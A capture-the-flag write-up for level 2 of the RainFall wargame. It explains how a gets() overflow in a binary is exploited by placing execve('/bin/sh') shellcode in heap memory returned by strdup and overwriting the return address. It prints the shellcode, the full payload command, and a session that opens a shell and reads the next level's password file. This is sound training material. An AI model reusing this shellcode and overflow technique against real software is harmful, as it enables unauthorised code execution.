 # Level 2

<h3>source.c</h3>

```console
void p(void) {
  char str[64];
  uint ret;

  fflush(stdout);
  gets(str);

  ret = __builtin_return_address(0): // Compiler function to get the return adress

  if ((ret & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n", ret);
    exit(1);
  }
  else {
    puts(str);
    strdup(str);
  }
}

void main(void) {
  p();
}
```

<h3>Analysis</h3>

We have the function main which do nothing but calling `p()`

In the `p()`, it has a protection to check if the return address starts with `0xb`, and will exit if it is

This is very concerning as the initial plan for this exploit is to overwrite the `RET` to call `system()` which in turn, spawn a shell

But after analyzing with `gdb`, the address for ths `system()` is `0xb7e6b060` which starts with `0xb`, thus we could not point to this address

```console
(gdb) p system
$4 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

Normaly the address that starts with `0xb7` means that this data are inside the stack, so this prevent the execution of the stack.

We need to find another way to call the `system()` to spawn a shell for our exploit


<h3>Exploit</h3>

At the later part of the program, it will call `strdup()` which will copy whatever we enter during the `gets()`

Why is this important ?

For example, if we input the string `open_shell` to the `get()`, the `str` variable will point to an address which contains the string `open_shell`

Since `str` is part of the local variable which in turn a part of the stack, the address that `str` pointed will definitely starts with `0xb`

However, `strdup()` is a function that use malloc to get memory allocation, which will be in the `heap`

If we check with `ltrace`, `strdup()` will always returns a pointer to the address `0x0804a008`, as it does not start with `0xb`, the program will allows the `RET` to this location

So, imagine if we overwrite the `RET` address to `0x0804a008`, the program will jump to this address and start to read the copied content `open_shell`,

Now if we replace the example string `open_shell` with a real `shellcode`, the program could potentially run the `shellcode` and spawn a `shell` for us!

We can find the `shellcode` in the internet, the following will be equivalent to `execve("/bin/sh")`

`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`

Next we need to find the offset to overwrite the `RET` pointer, using the same method as the previous level, we found that we need `80 bytes` as the offset

The `shellcode` itself is 28 bytes, so we need to add another 52 random char as bytes as the offset + address of the pointer return by `strdup()`

We need to print the `shellcode` first before the random char, because we want the program to run it as soon as it jumps

The final exploit will looks like this

`'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'a' * 52 + '\x08\xa0\x04\x08'`

```console
level2@RainFall:~$ (python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'a' * 52 + '\x08\xa0\x04\x08'"; cat - ) | ./level2
1�Ph//shh/bin����°
                   ̀1�@̀aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

<h3>Helpful link for this exploit</h3>

https://www.youtube.com/watch?v=HSlhY4Uy8SA&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=15

https://www.youtube.com/watch?v=m17mV24TgwY&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=17

http://shell-storm.org/shellcode/files/shellcode-811.php

